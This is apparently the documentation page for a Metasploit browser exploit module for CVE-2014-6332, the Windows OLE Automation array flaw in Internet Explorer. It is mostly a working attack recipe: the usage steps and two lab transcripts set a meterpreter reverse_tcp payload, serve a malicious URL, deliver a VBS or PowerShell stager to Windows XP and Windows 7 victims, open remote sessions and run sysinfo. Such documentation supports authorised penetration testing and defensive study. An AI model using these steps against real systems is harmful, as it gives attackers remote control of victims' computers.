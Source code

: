 ## Vulnerable Application

This module exploits the Windows OLE Automation array vulnerability, [CVE-2014-6332](https://www.cvedetails.com/cve/cve-2014-6332). The vulnerability is known to affect Internet Explorer 3.0 until version 11 within Windows 95 up to Windows 10, and no patch for Windows XP. However, this exploit will only target Windows XP and Windows 7 boxes. This is because from Windows 8 upward Internet Explorer blocks the payload from executing. Windows XP by defaults supports VBS, therefore it is used as the attack vector. On other newer Windows systems, the exploit will try using Powershell instead.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/ms14_064_ole_code_execution```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Options

**TRYUAC**

Ask victim to start as Administrator. This option only works on Windows 7 targets.

**AllowPowershellPrompt**

Allow exploit to try Powershell. If exploiting a Windows 7 target you need to enable this option.

## Scenarios

### Windows XP Pro SP3 x86 with IE 8.0.6001.18702

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.207`. 

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/hGA1Ux
[*] Local IP: http://192.168.2.3:8080/hGA1Ux
[*] Server started.
[*] 192.168.2.207    ms14_064_ole_code_execution - Gathering target information for 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending exploit...
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending VBS stager
[*] Sending stage (957487 bytes) to 192.168.2.207
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.207:1299) at 2017-03-01 19:07:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Windows 7 Pro SP1 x64 with IE 8.0.7601.17514

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.208`. Unlike on the Windows XP, target victim will see a popup dialog apear and they will have to allow the execution of the PowerShell script for the exploit to work. You need to set `AllowPowershellPrompt` option to `true` otherwise the exploit won't work on Windows 7.

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > set AllowPowershellPrompt true
AllowPowershellPrompt => true
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/6tdgNjLVij3zs
[*] Local IP: http://192.168.2.3:8080/6tdgNjLVij3zs
[*] Server started.
[*] 192.168.2.208    ms14_064_ole_code_execution - Gathering target information for 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending exploit...
[*] Sending stage (957487 bytes) to 192.168.2.208
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.208:49197) at 2017-03-01 19:35:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINDOWS7_X64
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
